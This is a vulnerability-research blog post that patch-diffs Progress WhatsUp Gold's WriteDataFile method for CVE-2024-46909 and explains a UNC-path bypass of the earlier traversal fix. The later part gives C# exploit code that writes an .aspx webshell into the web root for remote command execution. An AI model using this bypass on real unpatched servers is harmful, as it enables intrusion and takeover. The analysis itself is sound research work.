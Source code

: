 ```yaml
---
layout: post
title: (CVE-2024-46909) Progress Software WhatsUp Gold WriteDataFile Directory Traversal Remote Code Execution Vulnerability 
tag:
- CVE
- RCE
---
```




I haven't done any CVE reverse engineer blogposts before but really wanted to do one, so I decided look at something this Advisory looked interesting and I already had some idea about it from a past blogpost from the original finder of the same bug 
@SinSinology  the vulnerable component name is same so it would be just a bypass of the old bug

Below you can find the original blogpost of the old bug, we have detailed blogpost and the poc too :

https://summoning.team/blog/progress-whatsup-gold-writedatafile-cve-2024-4883-rce/
https://github.com/sinsinology/CVE-2024-4883


The details looks exactly the same I so quicly downloaded the patched version to do a patch diff https://www.zerodayinitiative.com/advisories/ZDI-24-1645/ . I already had an old version installed so I took a backup of the following two files

```
C:\Program Files (x86)\Ipswitch\WhatsUp\NmAPI.exe
C:\Program Files (x86)\Ipswitch\WhatsUp\WUGDataAccess.dll
```

After downloading the latest version and installing it , I exported the source from dotPeek and did a diff using DiffMerge

The declaration of the `WriteDataFile` method is in the NmAPI.exe!NmAPI.CoreServices.cs

Here's the Diff version of the `WriteDataFile` method 

```diff
     public void WriteDataFile(EntityDataFileTransfer dataFile)
     {
-      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":"))

+      if (dataFile.FileInfo.DirectoryName.Contains("..") || dataFile.FileInfo.DirectoryName.Contains(":") || dataFile.FileInfo.Name.Contains("..") || dataFile.FileInfo.Name.Contains(":") || dataFile.FileInfo.Name.Contains<char>('\\') || dataFile.FileInfo.Name.Contains<char>('/') || dataFile.FileInfo.DirectoryName.StartsWith("\\") || dataFile.FileInfo.DirectoryName.StartsWith("/"))

         throw new ArgumentException("Invalid file or directory name");
       string str = Path.Combine(Directory.GetCurrentDirectory(), "Data" + dataFile.FileInfo.DirectoryName);
       string path = Path.Combine(str, dataFile.FileInfo.Name);

+      if (!Path.GetFullPath(path).StartsWith(Path.GetFullPath(str), StringComparison.OrdinalIgnoreCase))
+        throw new ArgumentException("Invalid directory");
       
       if (File.Exists(path))
       {
         File.SetAttributes(path, FileAttributes.Archive);
```

Initially the if checks for the `dataFile.FileInfo.DirectoryName` and `dataFile.FileInfo.Name` were added to resolve the old issue CVE-2024-4883 , we can see now they added more checks there

```cs
dataFile.FileInfo.Name.Contains<char>('\\')
dataFile.FileInfo.Name.Contains<char>('/')

dataFile.FileInfo.DirectoryName.StartsWith("\\")
dataFile.FileInfo.DirectoryName.StartsWith("/")
```

Basically they are just checking if the Name and DirectoryName property Contains or StartsWith `//` ,`\` characters or not.

For Windows `\\` is treated as Network Path (UNC Path) , for eg \\ServerName\SharedFolder . So I thought the bypass is related to that only , I went with this path of thinking , if C directory where Whatsupgold is installed is being shared then it might be accessible under `\\PC-Name\`

![image](https://gist.github.com/user-attachments/assets/f27b1a32-b63b-4143-b086-71fb77e2f3bf)

Just an example UNC path which could get pass the if check: `\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole`

--------------------------------


In the exploit which @SinSinology originaly wrote you can see how the path is specified. All we need to do replace the value for the `webshell_path` variable with the UNC one

```cs
            string webshell_path = @"C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;

            EntityDataFileTransfer dataFile = new EntityDataFileTransfer
            {
                FileInfo = new EntityFileInfo
                {
                    DirectoryName = "test",
                    Name = webshell_path,
                    LastWriteTime = DateTime.Now
                },
                FileContents = System.IO.File.ReadAllBytes(webshell)
            };
            Console.WriteLine("(*) Using write what where primitive, to plant " + webshell_path);
            core_client.WriteDataFile(dataFile);
```

```cs
string webshell_path = @"\\Desktop-5i7nkh0\c\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\" + webshell_name;
```

Then just Build the Solution and execute the binary. It will write the content pointed out by the  `webshell` file and it will be written in the `C:\Program Files (x86)\Ipswitch\WhatsUp\html\NmConsole\` on the targetted system.

Thus by visiting the uploaded .aspx file location we can execute arbitrary commands.

A small gif for the exploit in action:

